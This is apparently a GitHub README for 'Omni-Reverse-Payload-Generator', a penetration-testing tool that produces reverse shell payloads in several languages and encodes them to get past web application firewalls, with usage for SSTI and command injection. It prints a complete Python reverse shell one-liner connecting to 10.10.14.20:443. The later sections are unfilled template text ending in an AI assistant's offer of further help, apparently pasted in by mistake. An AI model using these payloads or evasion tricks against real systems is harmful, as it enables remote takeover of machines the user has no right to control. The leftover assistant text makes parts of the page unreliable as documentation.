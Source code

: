 ### **What Is It?**
**Omni-Reverse-Payload-Generator** is a versatile and powerful tool designed for penetration testers and security professionals. It allows you to quickly generate reverse shell payloads offline using various programming languages and shells, such as Bash, Python, PowerShell, and more. The tool supports advanced encoding techniques, making it effective for bypassing security controls like Web Application Firewalls (WAFs). 

### **Key Features**
- **Multiple Reverse Payload Generation**: Quickly generate payloads for various environments, including Bash, Netcat, Perl, Python, PowerShell, and MSSQL, ensuring compatibility with different target systems.
- **Environment Testing**: Generate commands to identify and test shell environments, such as PowerShell/CMD (Windows) and Bash/Sh (Unix/Linux), to verify which shell the target supports.
- **Advanced Encoding Options**: Utilize encoding techniques like URL encoding, Base64, and Internal Field Separator (IFS) manipulation to obfuscate payloads and bypass WAFs.
- **Customization and Flexibility**: Customize payloads with options to modify shell behavior, encoding, and injection methods tailored for specific vulnerabilities like SSTI and command injection.

### **Installation**
```bash
git clone https://github.com/loganpkinfosec/omni-reverse-payload-generator/
cd omni-reverse-payload-generator
chmod +x *
```

### **Usage**

```bash
# Basic Usage Format
python3 Omni-Payload-Generator.py <payload_type> <LHOST> <LPORT> [options]

# Example Commands
python3 Omni-Payload-Generator.py -ps 10.10.14.20 443       # Generate PowerShell reverse shell
python3 Omni-Payload-Generator.py -b 10.10.14.20 443 -e     # Generate Bash reverse shell with URL encoding
python3 Omni-Payload-Generator.py -y3 10.10.14.20 443 -ifs injection  # Generate Python 3 reverse shell with IFS manipulation for command injection
python3 Omni-Payload-Generator.py -y 10.10.14.20 443 -ifs ssti -e  # Python reverse shell for SSTI with URL encoding
```

### **Command Options/Swiches**
- `-b, --bash`: Generates a Bash reverse shell command.
- `-n, --netcat`: Generates a Netcat reverse shell command.
- `-p, --perl`: Generates a Perl reverse shell command.
- `-y, --python`: Generates a Python reverse shell command.
- `-y3, --python3`: Generates a Python 3 reverse shell command.
- `-ps, --powershell`: Generates a PowerShell reverse shell command in Base64.
- `-e, --urlencode`: URL encodes the generated reverse shell command.
- `-ifs, --use-ifs`: Uses IFS manipulation (`injection` or `ssti`) to replace spaces, enhancing payload delivery in specific scenarios.


**Example: Generating a Python3 Shell with IFS Manipulation**
```bash
Command: python3 Omni-Payload-Generator.py -y3 10.10.14.20 443 -ifs injection
Output: python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.14.20",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.run(["/bin/bash","-i"]);'
```

### **7. Screenshots or Diagrams**
Include screenshots of the tool in action or diagrams showing the flow of payload generation. Visual aids help users quickly grasp the tool's functionality.

### **8. Common Issues and Troubleshooting**
Add a section that covers common issues users might face and how to resolve them. Examples might include permission errors, encoding issues, or incorrect usage of flags.

### **9. Contribution Guidelines**
Encourage contributions from the community by outlining how others can contribute, report bugs, or suggest features.

### **10. License and Acknowledgments**
Clearly state the licensing of your tool and acknowledge any inspirations or dependencies.

---

**Enhancements Summary:**
- **Structuring**: The documentation is organized into sections, making it easy for users to navigate and find information quickly.
- **Clarity**: Detailed explanations for each command and flag, supplemented by example commands and outputs.
- **Visuals**: Including screenshots or diagrams can further clarify the tool’s usage.
- **Troubleshooting**: Providing a section for common problems will improve user experience and reduce confusion.

Would you like help creating screenshots, diagrams, or further refining any of these sections?
